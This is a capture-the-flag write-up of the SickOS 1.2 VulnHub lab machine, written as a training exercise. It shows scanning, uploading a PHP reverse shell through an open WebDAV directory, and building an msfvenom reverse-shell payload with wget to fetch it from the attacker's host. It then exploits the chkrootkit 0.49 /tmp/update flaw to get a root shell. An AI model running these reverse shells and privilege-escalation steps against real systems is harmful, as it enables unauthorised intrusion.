



# SickOS 1.2 writeup (VulnHub)

## About

```bash
Name........: SickOs1.2
Date Release: 26 Apr 2016
Author......: D4rk
Series......: SickOs
Objective...: Get /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
Tester(s)...: h1tch1, Eagle11
Twitter.....: https://twitter.com/D4rk36
```

## Discovery phase

- **192.168.60.128** - SickOs 1.2 VM
- **192.168.60.1** - my host

```bash
$ nmap -v -A 192.168.60.128
...
Scanning 192.168.60.128 [1000 ports]
Discovered open port 22/tcp on 192.168.60.128
Discovered open port 80/tcp on 192.168.60.128
Scanning 2 services on 192.168.60.128
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesnt have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So ok, looks like we only have ssh and http services available.

### HTTP discovery

So `nikto` gives us blanks.

```bash
nikto -h <http://192.168.60.128> -C all

 - Nikto v2.1.5

- Target IP: 192.168.60.128
- Target Hostname: 192.168.60.128
- Target Port: 80
- Start Time: 2016-04-27 22:15:11 (GMT3)

--------------------------------------------------------------------------------

- Server: lighttpd/1.4.28
- The anti-clickjacking X-Frame-Options header is not present.
- 6545 items checked: 0 error(s) and 1 item(s) reported on remote host
- End Time: 2016-04-27 22:15:36 (GMT3) (25 seconds)

--------------------------------------------------------------------------------

- 1 host(s) tested
```

Main webpage contains usual 'trolling' picture reading 'What if computer viruses are really made by the anti-virus softare companies to make money' (typo in 'software' is original). I checked image in `exiftool` just to be sure there's no steganography involved ;)

Let's start the directory discovery phase. I like using `wfuzz` for this purpose, but any of `dirb`, `gobuster` etc. will do. For the quick run I like using `quickhits` wordlist from SecLists.

```bash
$ python wfuzz.py  -c -z file,~/PenTest/_Payloads/SecLists/Discovery/Web_Content/quickhits.txt --hc 404,403  http://192.168.60.128/FUZZ
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                      *
********************************************************

Target: http://192.168.60.128/FUZZ
Total requests: 2365

==================================================================
ID    Response   Lines      Word         Chars          Request
==================================================================

02045:  C=301      0 L           0 W          0 Ch      "/test"
02065:  C=200     33 L         126 W       1360 Ch      "/test/"

Total time: 2.932239
Processed Requests: 2365
Filtered Requests: 2363
Requests/sec.: 806.5508
```

Yes, 'test' page is just what we need. So while I investigate this page, I ran more long wordlist `raft-large-directories.txt` just in case I missed something.

Test page presented with a empty directory listing, that was disappointing. Well, directory listing could point on some uploading functionality, right?

I was too lazy loading my Kali box for `cadaver`, as I am running OS X, so I just google `curl` WEBDAV usage:

```bash
$ curl -I -X OPTIONS http://192.168.60.129/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 28 Apr 2016 17:15:25 GMT
Server: lighttpd/1.4.28

$ touch 1
$ curl -T './1' 'http://192.168.60.128/test/'
```



Okay, test file is uploaded! Time for some reverse shells.

## Getting the shell

```bash
$ cp ~/PenTest/_Payloads/payloads/fuzzdb/web-backdoors/php/php-reverse-shell.php ./
$ vi php-reverse-shell.php
$ curl -T './php-reverse-shell.php' 'http://192.168.60.128/test/'
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

Okay, my guess was that it's blocking `php` extensions.

```bash
cp php-reverse-shell.php 2
overwrite 2? (y/n [n]) y
╭─$  ~/Downloads/TMP
╰─$ curl -T './2' 'http://192.168.60.128/test/'
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

Yeah, it doesn't help.

After some thinking and lurking, I managed to upload it just by using `CyberDuck` app. Well, if it works, why not?



I ran it and nothing happened. Hmm, let's check listening port from default 8888 to something more standard, like 80\. Okay, so port 80 didn't work for me either. Finally, I resorted to port 443 which finally opened the shell -)

```bash
# on client machine
$ sudo nc -nvlp 443                                                                                                                                                                                       Connection from 192.168.60.128:47088
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 16:59:35 up 30 min,  0 users,  load average: 0.08, 0.08, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

## Privilege escalation

Okay, we finally got a shell with limited `www-data` user.

Following the famous [G0tmi1k's privilege escalation guide](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), I noticed `chkrootkit` package in the crontab. Remember the initial hint in the image about antiviruses?

```bash
chkrootkit -V
chkrootkit version 0.49
```

And the `searchsploit` gives us some exploits on this version:

```bash
searchsploit chkrootkit                                                                                                                                                                                 1 ↵
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
 Exploit Title                                                                                                                                   |  Path
                                                                                                                                                 | (/usr/local/Cellar/exploitdb/HEAD/share/exploitdb/platforms)
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
chkrootkit 0.49 - Local Root Vulnerability                                                                                                       | ./linux/local/33899.txt
Chkrootkit - Local Privilege Escalation                                                                                                          | ./linux/local/38775.rb
------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------------------------
```

So the point of this exploit is this:

```
...
The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.

If an attacker knows you are periodically running chkrootkit (like in
cron.daily) and has write access to /tmp (not mounted noexec), he may
easily take advantage of this.
...
```

So all we need is to craft our `/tmp/update` payload and put it there, waiting for chkrootkit's cronjob to take it.

Let's create a payload with `msfvenom`:

```bash
msfvenom -p linux/x86/shell_bind_tcp  LPORT=443  -f elf -o ~/Downloads/TMP/update
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
```

Transfer payload to the host:

```
cd ~/Downloads/TMP
python -m SimpleHTTPServer 8080

#on the SickOS
wget http://192.168.60.1:8080/update
chmod +x ./update
```

And after some waiting....

```bash
netstat -an
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN
```

On my host:

```bash
nc -nv 192.168.60.128 443                                                                                                                                                                               1 ↵
192.168.60.128 443 (https): Operation timed out
```

Yeah, then I remembered that there's some filtering going on. So maybe incoming 443 port is blocked, after some thinking I thought about port 8080.

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp  LHOST=192.168.60.1 LPORT=8080  -f elf -o ~/Downloads/TMP/update
...
Payload size: 68 bytes
```

After transfering and more waiting I finally got it!:

```bash
$ nc -nvlp 8080                                                                                                                                                                                           Connection from 192.168.60.128:37661
id
uid=0(root) gid=0(root) groups=0(root)
```



w00tw00t, let's get the flag:

```bash
cd /root
ls
304d840d52840689e0ab0af56d6d3a18-chkrootkit-0.49.tar.gz
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
chkrootkit-0.49
newRule
cat 7d*
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```

And as a bonus, we see iptables filtering in 'newRule':

```bash
cat newRule
# Generated by iptables-save v1.4.12 on Mon Apr 25 22:48:24 2016
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT DROP [0:0]
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 8080 -j ACCEPT
-A INPUT -p tcp -m tcp --sport 443 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 22 -j ACCEPT
-A OUTPUT -p tcp -m tcp --sport 80 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 8080 -j ACCEPT
-A OUTPUT -p tcp -m tcp --dport 443 -j ACCEPT
COMMIT
```

## The End

After the OSCP challenge I took last August I found SickOS 1.2 quite similar to my experience in OSCP labs. Thanks, @D4rk36 and @VulnHub for fun experience.
